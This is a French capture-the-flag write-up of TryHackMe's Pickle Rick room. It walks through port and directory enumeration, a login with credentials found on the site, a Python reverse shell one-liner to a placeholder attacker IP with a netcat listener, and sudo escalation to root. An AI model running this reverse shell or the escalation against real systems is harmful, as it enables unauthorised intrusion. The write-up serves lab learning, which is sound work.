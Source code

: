 ![wallpaper](image/fondd'ecran.png)
# **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus.

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH

![Scan Nmap](image/scannmap.png)

---

### **2. Exploration de la page web**
- **Inspection du code source :** J’ai analysé le code source de la page web et trouvé un indice important :
  - **Nom d’utilisateur :** `R1ckRul3s`

![Nom d'utilisateur trouvé dans le code source](image/codesource.png)

---

### **3. Recherche des répertoires cachés**

#### **Étape 1 : Utilisation de Gobuster**
J’ai commencé avec **Gobuster** pour découvrir les répertoires et fichiers cachés sur le serveur. Voici la commande que j’ai utilisée :

```bash
gobuster dir -u http://<IP-CIBLE>/ -w <wordlist>
```

- **Résultat :** Gobuster n’a pas trouvé de répertoires exploitables. J’ai réalisé que le problème pouvait venir de la liste de mots utilisée (`wordlist`) qui n’était peut-être pas adaptée au contexte.

![Résultats Gobuster](image/Gobusterenumeration.png)

---

#### **Étape 2 : Passer à Dirb**
Pour vérifier si le problème venait de l’outil ou de la liste, j’ai décidé d’utiliser **Dirb**, un autre outil d’énumération de répertoires. Voici la commande que j’ai utilisée :

```bash
dirb http://<IP-CIBLE>/ <wordlist>
```

- **Résultat :** Dirb a trouvé plusieurs chemins, notamment un fichier `/robots.txt`.

![Résultats Dirb](image/dirbenumeration.png)

---

#### **Étape 3 : Analyse de `/robots.txt`**
En accédant au fichier `/robots.txt`, j’ai trouvé la chaîne suivante :
```
Wubbalubbadubdub
```

Cela ressemblait fortement à un mot de passe ou à un indice. J’ai essayé d’utiliser cette chaîne comme mot de passe pour me connecter au serveur SSH, mais cela a échoué. En effet, le serveur SSH exigeait une clé RSA pour la connexion.

![Analyse robots.txt](image/clue.txt.png)

---

#### **Étape 4 : Réflexion et leçons apprises**
Après cet échec, voici ce que j’ai appris :
1. **Liste de mots adaptée :** L’utilisation d’une wordlist spécifique pour Dirb a permis de découvrir des répertoires que Gobuster n’avait pas trouvé.
2. **Analyse méthodique :** La découverte de `/robots.txt` m’a permis de progresser en obtenant un nouvel indice.
3. **Persévérance :** Même si `Wubbalubbadubdub` n’était pas utilisable immédiatement, je savais qu’il pouvait être pertinent dans une autre partie du challenge.

---

### **4. Scan avec Nikto**
Après avoir exploré `/robots.txt`, j’ai décidé de scanner le serveur avec **Nikto** pour découvrir des fichiers ou répertoires supplémentaires. Voici la commande utilisée :

```bash
nikto -h http://<IP-CIBLE>/
```

- **Résultats :** Nikto a révélé la présence d’un fichier `/login.php`, ce qui m’a permis de progresser.

![Résultats Nikto](image/nikto.png)

---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** J’ai pu me connecter avec succès au fichier `/login.php` et accéder au panneau de contrôle.

![Panneau de contrôle](image/commandpanel.png)

---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.

![Reverse Shell](image/reverseshellcotercible.png)
![Reverse Shell](image/reverseshellcoterattaque.png)

---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.

![Accès root](image/devenirroot+flag3.png)

---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.

![Troisième flag](image/devenirroot+flag3.png)

---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier robot.txt`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.

![résumé_ctf](image/resuméctf.png)

## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.


